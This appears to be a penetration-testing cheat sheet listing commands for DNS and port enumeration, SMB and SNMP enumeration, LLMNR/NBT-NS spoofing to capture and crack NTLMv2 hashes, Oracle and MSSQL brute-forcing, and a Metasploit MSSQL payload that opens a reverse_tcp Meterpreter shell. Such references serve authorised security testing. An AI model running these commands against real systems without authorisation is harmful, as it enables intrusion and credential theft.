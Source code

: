 [Back to Main Page](../index.html) 

# Introduction

This penetration cheat sheet should be used as a quick reference overview for various and typical commands used when performing penetration tests.

**Table of Contents** 

- [Pre-engagement](#pre-engagement)
    - [Network Configuration](#network-configuration)
        - [Set IP Address](#set-ip-address)
        - [Subnetting](#subnetting)
- [Information Gathering](#information-gathering)
    - [DNS Enumeration](#dns-enumeration)
    - [Active Information Gathering](#active-information-gathering)
        - [DNS Bruteforce](#dns-bruteforce)
        - [Port Scanning](#port-scanning)
    - [Enumeration of Network Services](#enumeration-of-network-services)
        - [SMB SAMB Enumeration](#smb-samb-enumeration)
        - [LLMNR and NBT-NS Attack Spoofing](#llmnr-and-nbt-ns-attack-spoofing)
        - [SNMP Enumeration](#snmp-enumeration)
    - [TLS and SSL Testing](#tls-and-ssl-testing)        
- [Penetration Tests](#penetration-tests)
    - [Database Penetration](#database-penetration)
        - [Oracle](#oracle)
        - [MSSQL](#mssql)    
- [Network](#network)


# Pre-engagement

## Network Configuration

### Set IP Address

`ifconfig eth0 xxx.xxx.xxx.xxx/24 `

### Subnetting

`ipcalc xxx.xxx.xxx.xxx/24`

`ipcalc xxx.xxx.xxx.xxx 255.255.255.0`

# Information Gathering

## DNS Enumeration 

`whois domain.com`   
Domain name lookup service to search the whois database for domain name registration information.

`dig a domain.com @nameserver`    
Dig dns lookup / nameserver query.

`dig mx domain.com @nameserver`   
Perform MX record Lookup.

`dig axfr domain-name-here.com @nameserver`   
Perform Zone Transfer.

##  Active Information Gathering

### DNS Bruteforce

`dnsrecon -d TARGET -D /usr/share/wordlists/dnsmap.txt -t std --xml ouput.xml`   
DNS Recon via Kali Tools.

### Port Scanning

`nmap -v -sS -A -T4 target`   
Nmap verbose scan, runs syn stealth, T4 timing (should be ok on LAN), OS and service version info, traceroute and scripts against services.

`nmap -v -sS -p--A -T4 target`   
As above but scans all TCP ports (takes a lot longer).

`nmap -v -sU -sS -p- -A -T4 target`   
As above but scans all TCP ports and UDP scan (takes even longer).

`netdiscover -r 192.168.1.0/24`   
Discovers IP, MAC Address and MAC vendor on the subnet from ARP, helpful for confirming you're on the right VLAN at $client site.

## Enumeration of Network Services

### SMB SAMB Enumeration

`nbtscan 192.168.1.0/24`   
nbtscan is a external tool that discovers Windows / Samba servers on subnet, finds Windows MAC address, exposed netbios nameservers and discovers client workgroup or domain.

`enum4linux -a target-ip`    
enum4linux is a tool for enumerating information from Windows and Samba systems.

`smbclient -L //192.168.1.100`   
Use it to find the smbclient version.

`nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.11.200-254`   
`python /usr/share/doc/python-impacket-doc/examples /samrdump.py 192.168.XXX.XXX`   
Enumerate SMB Users

`nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24`   
Find open SMB shares

`use auxiliary/scanner/smb/smb_lookupsid`   
METASPLOIT MODULE - Determine what users exist via brute force SID lookups. This module can enumerate both local and domain accounts by setting ACTION to either LOCAL or DOMAIN.

`smbclient -L //192.168.99.131`   
Test for Null Session on Windows Server 2000.

### LLMNR and NBT-NS Attack Spoofing

Steal credentials off the network. LLMNR and NetBIOS are two name resolution services built in to Windows to help systems find address names from other devices on the network. 

`auxiliary/spoof/llmnr/llmnr_response`   
`auxiliary/spoof/nbns/nbns_response`   
Spoof / poison LLMNR / NetBIOS requests.

`auxiliary/server/capture/smb`   
`auxiliary/server/capture/http_ntlm`   
Capture the hashes of LLMNR / NBT-NS. You’ll end up with NTLMv2 hash, use john or hashcat to crack it.

### SNMP Enumeration

SNMP enumeration is the process of using SNMP to enumerate user accounts on a target system. SNMP employs two major types of software components for communication: the SNMP agent, which is located on the networking device, and the SNMP management station, which communicates with the agent.

`snmp-check -t 192.168.1.2 -c public`   
`snmpwalk -c public -v1 192.168.1.X 1| grep hrSWRunName|cut -d* * -f`   
`snmpenum -t 192.168.1.X`   
`onesixtyone -c names -i hosts`   
Different SNMP Enumerations.

`nmap -sV -p 161 --script=snmp-info TARGET-SUBNET`   
SNMPv3 Enumeration.

`/usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt`
Metasploit's wordlist has common credentials for SNMPv1 and SNMPv2.

## TLS and SSL Testing

`./testssl.sh -e -E -f -p -y -Y -S -P -c -H -U TARGET-HOST | aha > OUTPUT-FILE.html`
Test all options on a single host and output to a .html file.

# Penetration Tests

## Database Penetration

### Oracle

`apt-get install oscanner`    
`oscanner -s 192.168.1.200 -P 1521`   
Install and Run OScanner for SID Enumeration, Password tests, Version, Accounts, Audits, policies.

`nmap --script=oracle-tns-version`   
Fingerprint / get Oracle TNS version.

`nmap -p 1521 -A TARGET`   
Run nmap against oracle TNS.

`nmap --script=oracle-sid-brute`   
`nmap --script=oracle-brute`   
Identify default Oracle users. Login to continue the oracle privilege escalation.

### MSSQL

`nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156`   
`msf > use auxiliary/scanner/mssql/mssql_ping`   
Use nmap or METASPLOIT for MSSQL Enumeration.

`msf > use auxiliary/admin/mssql/mssql_enum`
Bruteforce MSSQL Login.

`msf > use exploit/windows/mssql/mssql_payload`   
`msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp` 
Metasploit MSSQL Shell.

# Network
